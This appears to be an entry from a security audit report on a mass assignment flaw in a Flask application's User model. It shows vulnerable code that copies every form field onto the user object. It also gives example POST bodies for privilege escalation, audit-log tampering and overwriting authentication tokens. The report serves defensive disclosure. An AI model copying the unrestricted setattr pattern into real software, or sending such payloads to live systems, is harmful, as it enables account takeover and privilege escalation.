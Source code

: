 ### CVE-FC-031: Mass Assignment Vulnerabilities
**File:** [`models/user.py`](models/user.py:35)  
**Severity:** High  
**CVSS Score:** 8.1  
**OWASP Category:** A01 - Broken Access Control

**Description:**  
Models allow unrestricted attribute assignment, enabling attackers to modify sensitive fields including user permissions, ownership, and audit data.

**Vulnerable Code:**
```python
class User(UserMixin, db.Model):
    def update_profile(self, **kwargs):
        """Vulnerable mass assignment"""
        for key, value in kwargs.items():
            if hasattr(self, key):
                setattr(self, key, value)  # No field restrictions
        db.session.commit()

# Usage in routes
@app.route('/profile/update', methods=['POST'])
@login_required
def update_profile():
    # Vulnerable: All form data passed directly
    current_user.update_profile(**request.form.to_dict())
    return redirect('/profile')
```

**Attack Scenarios:**
```python
# Privilege escalation
POST /profile/update
{
    "username": "admin",
    "groups": "admin,superuser",
    "id": 1  # Change user ID
}

# Audit trail manipulation
POST /profile/update
{
    "created_at": "2020-01-01T00:00:00",
    "last_login": "2025-01-01T00:00:00"
}

# Authentication bypass
POST /profile/update
{
    "auth_token": "known_admin_token",
    "password": "known_hash"
}
```
